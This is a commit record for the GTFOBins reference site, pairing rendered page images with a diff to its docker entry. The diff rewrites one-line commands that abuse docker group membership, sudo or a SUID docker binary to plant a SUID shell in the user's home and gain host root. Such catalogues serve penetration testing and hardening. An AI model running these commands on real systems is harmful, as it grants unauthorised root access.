

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/docker.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Make docker disposable, use sh instead of bash and add description

```diff
--- a/_gtfobins/docker.md
+++ b/_gtfobins/docker.md
@@ -1,7 +1,19 @@
 ---
+description: |
+  Exploit the fact that Docker runs as root to create a SUID binary on the host using a container. This requires the user to be privileged enough to run docker, i.e., being in the `docker` group.
+
+  This creates a SUID shell in the guest file system. Any other Linux images should work, e.g., `debian`.
 functions:
   execute-interactive:
-    - code: docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p
+    - code: |
+        docker run --rm -v /home/$USER:/h_docs ubuntu \
+            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
   sudo-enabled:
-    - code: sudo docker run -v /home/${USER}:/h_docs ubuntu bash -c "cp /bin/bash /h_docs/rootshell && chmod 4777 /h_docs/rootshell;" && ~/rootshell -p
+    - code: |
+        sudo docker run --rm -v /home/$USER:/h_docs ubuntu \
+            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
+  suid-enabled:
+    - code: |
+        ./docker run --rm -v /home/$USER:/h_docs ubuntu \
+            sh -c 'cp /bin/sh /h_docs/sh && chmod +s /h_docs/sh' && ~/sh -p
 ---
```
